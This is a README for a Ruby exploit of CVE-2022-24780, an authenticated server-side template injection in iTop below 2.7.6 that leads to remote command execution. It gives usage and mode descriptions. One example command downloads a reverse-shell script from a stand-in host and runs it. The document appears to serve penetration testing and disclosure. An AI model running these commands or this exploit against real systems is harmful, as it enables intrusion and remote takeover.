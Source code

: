 # iTop RCE via SSTI - CVE-2022-24780 exploit

> iTop < 2.7.6 - (Authenticated) Remote command execution

Exploit for [CVE-2022-24780][CVE-2022-24780].

[[EDB-TODO](https://www.exploit-db.com/exploits/TODO)] [[PacketStorm](https://packetstormsecurity.com/files/167236/iTop-Remote-Command-Execution.html)] [[WLB-2022050075](https://cxsecurity.com/issue/WLB-2022050075)]

## Usage

```
$ ruby exploit.rb -h
iTop < 2.7.6 - (Authenticated) Remote command execution

Usage:
  exploit.rb full <url> <username> <password> <cmd> [--debug]
  exploit.rb light <url> <username> <password> <cmd> [--debug]
  exploit.rb -h | --help

  full: exploit with an emulated browser, execute JavaScript, preserve original user profile information
  light: just parse HTML and send requests, no JavaScript, (DESTRUCTIVE) reset user information: phone, location, function

Options:
  <url>       Root URL (base path) including HTTP scheme, port and root folder
  <username>  iTop portal username
  <password>  iTop portal user password
  <cmd>       Command to execute on the target
  --debug     Display arguments
  -h, --help  Show this screen

Examples:
  exploit.rb full http://example.org john 's9nvEIZnEo6ghi' 'echo proof > /var/www/html/proof.txt'
  exploit.rb light https://example.org:5000/itop john 's9nvEIZnEo6ghi' 'curl --remote-name http://pentest.example.com:7000/revshell.pl; perl revshell.pl'
```

## Flavor

The **full** flavor of the exploit is using [Watir](http://watir.com/) using a web browser driven by [Selenium](https://www.selenium.dev/) to emulate a user browsing. This is required to preserve user information. The exploit inject an SSTI payload in a sub-part of the form used to modify user information on the portal user profile. While some values can be hardcoded or retrieved from the HTML others (phone, location, function) are loaded dynamically via Javascript and injected into the HTML. So in order for the exploit to not be destructive, it's necessary to execute JavaScript to be able to retrieve those values.

The **light** flavor of the exploit is not caring that much and will just destructively set a null value to some user information fields (phone, location, function) instead. However this flavor is faster to execute, requires less dependencies, won't execute any JavaScript, and doesn't need a X environment (Watir does to run the web browser).
